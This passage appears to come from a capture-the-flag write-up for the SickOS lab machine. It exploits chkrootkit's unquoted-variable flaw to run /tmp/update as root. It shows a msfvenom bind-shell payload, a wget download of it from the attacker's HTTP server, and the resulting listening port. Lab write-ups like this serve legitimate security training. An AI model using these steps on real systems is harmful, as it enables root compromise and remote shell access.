 So the point of this exploit is this:

```
...
The line 'file_port=$file_port $i' will execute all files specified in
$SLAPPER_FILES as the user chkrootkit is running (usually root), if
$file_port is empty, because of missing quotation marks around the
variable assignment.

Steps to reproduce:

- Put an executable file named 'update' with non-root owner in /tmp (not
mounted noexec, obviously)
- Run chkrootkit (as uid 0)

Result: The file /tmp/update will be executed as root, thus effectively
rooting your box, if malicious content is placed inside the file.

If an attacker knows you are periodically running chkrootkit (like in
cron.daily) and has write access to /tmp (not mounted noexec), he may
easily take advantage of this.
...
```

So all we need is to craft our `/tmp/update` payload and put it there, waiting for chkrootkit's cronjob to take it.

Let's create a payload with `msfvenom`:

```bash
msfvenom -p linux/x86/shell_bind_tcp  LPORT=443  -f elf -o ~/Downloads/TMP/update
No platform was selected, choosing Msf::Module::Platform::Linux from the payload
No Arch selected, selecting Arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 78 bytes
```

Transfer payload to the host:

```
cd ~/Downloads/TMP
python -m SimpleHTTPServer 8080

#on the SickOS
wget http://192.168.60.1:8080/update
chmod +x ./update
```

And after some waiting....

```bash
netstat -an
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State
tcp        0      0 0.0.0.0:443             0.0.0.0:*               LISTEN
```
